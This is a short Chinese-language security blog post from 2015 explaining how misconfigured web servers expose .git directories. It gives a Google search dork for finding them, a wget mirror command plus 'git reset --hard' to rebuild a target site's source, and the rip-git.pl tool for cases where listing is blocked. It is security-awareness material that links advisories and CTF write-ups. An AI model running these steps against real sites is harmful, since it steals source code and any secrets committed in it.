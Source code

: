 ```yaml
---
id: 156
layout: post
title: '通过.git获取源码'
date: 2015-02-06 11:58:12
author: virusdefender
tags: 
---
```


本来是看到[这个文章][1]，觉得还不错，想简单翻译一下搬到博客上来。结果晚上就发现一篇更详细的ppt。

原 ppt 链接 http://www.slideshare.net/kost/ripping-web-accessible-git-files

中文翻译基于 http://zone.wooyun.org/content/18004，有修改~

在运行git init初始化代码库的时候 
会在当前目录下产生.git目录，用来记录代码的变更等等 

.git目录结构如下 
```
sky@linux:~/git-repo/test$ tree .git 
.git 
├── branches 
├── config 
├── description 
├── HEAD 
├── hooks 
│   ├── applypatch-msg.sample 
│   ├── commit-msg.sample 
│   ├── post-update.sample 
│   ├── pre-applypatch.sample 
│   ├── pre-commit.sample 
│   ├── prepare-commit-msg.sample 
│   ├── pre-push.sample 
│   ├── pre-rebase.sample 
│   └── update.sample 
├── info 
│   └── exclude 
├── objects 
│   ├── info 
│   └── pack 
└── refs 
    ├── heads 
    └── tags 

9 directories, 13 files 
```

发布代码的之后，直接把开发目录拷贝过去（.git）也在里面，然后就中奖了。。。 

google一下：`".git"  intitle:"index of"`

人肉获取法： 
```
mkdir git-test 
cd git-test 
#下载.git文件 
wget --mirror --include-directories=/.git http://www.target.com/.git 
cd www.target.com 
#版本回退，得到了源代码 
git reset --hard 
```

如果apache是Options FollowSymLinks，.git访问是403，上面这种人肉法就失效了。。。 

需要借助工具，来遍历关键文件并下载恢复： 
https://github.com/kost/dvcs-ripper 

```
rip-git.pl 

Example: ./rip-git.pl -v -u http://www.example.com/.git/ 
```

实例： 
[WooYun: 友盟网git服务使用不当导致源代码泄露][2] 
[被忽视的开发安全问题][3]
[HCTF writeup(web)][4]
[One git command may cause you hacked(CVE-2014-9390)][5]


git教程（写的真心详细） 
http://www.liaoxuefeng.com/wiki/0013739516305929606dd18361248578c67b8067c8c017b000


  [1]: https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/
  [2]: http://www.wooyun.org/bugs/wooyun-2014-076372
  [3]: http://drops.wooyun.org/papers/4439
  [4]: http://drops.wooyun.org/tips/4070
  [5]: http://drops.wooyun.org/papers/4386